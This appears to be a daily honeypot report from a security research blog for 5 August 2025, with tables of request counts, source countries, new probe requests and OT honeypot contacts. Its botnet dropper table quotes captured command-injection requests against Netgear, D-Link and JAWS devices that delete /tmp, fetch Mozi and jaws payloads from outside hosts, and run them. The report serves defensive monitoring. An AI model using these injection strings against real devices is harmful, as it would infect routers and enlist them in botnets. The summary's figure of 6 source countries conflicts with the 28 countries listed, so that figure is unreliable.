 ```yaml
---
title: "Report: 2025-08-05 "
date: 2025-08-05
desciption: "Report: 2025-08-05" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-05 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 16 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 803 requests were recorded during the day, originating from 6 different countries, with a peak of 436 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |
| GB               | Germany            |
| US               | Germany            |
| US               | Germany            |
| KR               | Germany            |
| US               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                   |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.207.224.51  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 117.216.70.22   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                     |
| 119.188.164.100 | GET /shell?cd+/tmp;rm+-rf+*;wget+196.251.86.86/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                 |
| 117.196.4.1     | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                     |
| 118.194.249.90  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                      |
| 45.230.66.99    | GET /shell?cd+/tmp;rm+-rf+*;wget+http://45.230.66.99:10652/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                              |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
|  71 |                     2 | GET http://httpbin.org/anything/test HTTP/1.1                 |
|  74 |                     2 | GET http://checkip.amazonaws.com/ HTTP/1.1                    |
|  75 |                     2 | GET http://httpbin.org/uuid HTTP/1.1                          |
| 224 |                     1 | \x00\x0E8\xBA\xBB\xB8\xF3L\xA6\xAB-\x00\x00\x00\x00\x00       |
| 225 |                     1 | \x10\x12\x00\x04MQTT\x04\x00\x00                              |
| 226 |                     1 | \x00\x0E\x08\xFCT \x8E\x08\xB4\x0Ft\x00\x00\x00\x00\x00       |
| 227 |                     1 | \x00\x0E8\xFCT \x8E\x08\xB4\x0Ft\x00\x00\x00\x00\x00          |
| 228 |                     1 | \x00\x0E\x08\xB3\xF4\xDA\xA5\x8Fd\x8B\xAA\x00\x00\x00\x00\x00 |
| 229 |                     1 | \x00\x0E8\xB3\xF4\xDA\xA5\x8Fd\x8B\xAA\x00\x00\x00\x00\x00    |
| 242 |                     1 | \x04\x01\x00P? \x88a\x00\x00                                  |
| 257 |                     1 | GET http://pascal.hoez.free.fr/azenv.php HTTP/1.1             |
| 258 |                     1 | CONNECT ident.me:443 HTTP/1.1                                 |
| 259 |                     1 | \x04\x01\x01\xBBAl\x97?\x00                                   |
| 270 |                     1 | \x00\x0E8\xF0\x82\xD69b\xD5*\xA3\x00\x00\x00\x00\x00          |
| 323 |                     1 | GET /goform/qpalfhyd HTTP/1.1                                 |
| 332 |                     1 | GET /http.txt HTTP/1.1                                        |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   436 | GB                 |
|  1 |                   146 | US                 |
|  2 |                    69 | NL                 |
|  3 |                    47 | DE                 |
|  4 |                    13 | SC                 |
|  5 |                    11 | JP                 |
|  6 |                     9 | PL                 |
|  7 |                     9 | CA                 |
|  8 |                     8 | LT                 |
|  9 |                     8 | SG                 |
| 10 |                     7 | KR                 |
| 11 |                     7 | BG                 |
| 12 |                     6 | RU                 |
| 13 |                     4 | ZA                 |
| 14 |                     3 | HK                 |
| 15 |                     3 | CN                 |
| 16 |                     3 | IN                 |
| 17 |                     2 | RO                 |
| 18 |                     2 | AU                 |
| 19 |                     2 | IR                 |
| 20 |                     1 | BE                 |
| 21 |                     1 | DK                 |
| 22 |                     1 | PA                 |
| 23 |                     1 | PT                 |
| 24 |                     1 | FR                 |
| 25 |                     1 | CH                 |
| 26 |                     1 | AR                 |
| 27 |                     1 | PH                 |
